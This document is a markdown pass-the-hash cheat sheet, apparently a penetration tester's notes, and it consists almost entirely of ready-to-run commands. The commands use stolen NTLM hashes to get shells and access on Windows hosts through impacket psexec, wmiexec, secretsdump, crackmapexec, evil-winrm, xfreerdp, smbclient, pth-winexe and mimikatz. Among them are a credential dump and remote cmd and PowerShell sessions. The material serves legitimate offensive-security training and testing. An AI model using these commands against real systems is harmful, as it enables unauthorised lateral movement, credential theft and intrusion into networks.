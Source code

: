 # Pass The Hash
-------
https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/

LM Hash: AAD3B435B51404EEAAD3B435B51404EE

```bash
msf > use exploit/windows/smb/psexec
```

psexec
```bash
python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:08df3c73ded940e1f2bcf5eea4b8dbf6 tris@10.11.1.20 cmd.exe
```

cme
```bash
cme smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79  -d domain.local
```

wmiexec
```bash
wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```

winrm
```bash
evil-winrm -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79
```

xfreerdp
```bash
xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
```

LDAP
```bash
secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
```

smbclient
```txt
smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local
```

```bash
./pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Over pass the hash using mimikatz
```cmd
sekurlsa::pth /user:Administrator /domain: /ntlm: /run:Powershell.exe
```

```cmd
.\PsExec.exe \\10.11.1.20 cmd 
```

